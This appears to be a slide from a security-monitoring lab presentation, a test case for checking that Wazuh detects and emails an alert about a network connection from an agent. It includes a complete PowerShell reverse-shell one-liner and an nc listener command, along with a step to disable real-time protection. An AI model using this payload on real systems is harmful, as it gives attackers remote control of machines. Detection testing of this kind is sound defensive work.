

Test Case 10: Detection of network connections on the agent
Open a terminal in your attacker machine
Run  nc -lvp 4444
Ensure Real-time protection is disabled on the agent
Open Powershell on the agent and run the command
$client = New-Object System.Net.Sockets.TCPClient("192.168.71.139",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
View alert generated by Wazuh showing network connection
View email alert sent to Administrator notifying network connection

Expected Outcome: Attacker managed to gain a reverse shell on the agent. Alert generated by Wazuh showing network connection created and email alert sent to notify Administrator.
22